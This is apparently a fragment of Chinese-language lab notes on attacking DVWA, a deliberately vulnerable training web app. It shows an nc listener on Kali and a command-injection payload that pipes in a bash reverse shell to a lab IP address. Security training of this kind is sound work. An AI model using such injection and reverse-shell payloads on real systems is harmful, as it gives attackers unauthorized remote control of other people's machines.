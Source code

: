 ![image-20220409154645420](../../images/image-20220409154645420-9490407.png)

## 1.2 反弹shell

在`kali`上使用`nc`监听端口
 `nc -lvnp 5555`
在`dvwa web`页面输入攻击`payload` :
`127.0.0.1|bash -i >& /dev/tcp/172.16.1.2/5555 0>&1`

![image-20220409154832371](../../images/image-20220409154832371.png)
